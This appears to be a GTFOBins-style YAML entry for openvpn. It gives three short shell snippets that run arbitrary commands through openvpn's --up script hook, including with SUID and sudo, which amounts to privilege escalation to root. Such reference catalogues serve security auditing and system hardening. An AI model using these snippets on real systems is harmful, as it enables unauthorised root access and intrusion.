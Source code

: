 ```yaml
---
functions:
  command:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo '#!/usr/bin/env sh' > $TF
        echo "$COMMAND" >> $TF
        chmod +x $TF
        openvpn --dev tun0 --script-security 2 --up $TF
  suid:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo '#!/usr/bin/env -S sh -p' > $TF
        echo "$COMMAND" >> $TF
        chmod +x $TF
        openvpn --dev tun0 --script-security 2 --up $TF
  sudo:
    - code: |
        COMMAND='id'
        TF=$(mktemp)
        echo '#!/usr/bin/env sh' > $TF
        echo "$COMMAND" >> $TF
        chmod +x $TF
        sudo openvpn --dev tun0 --script-security 2 --up $TF
---
```

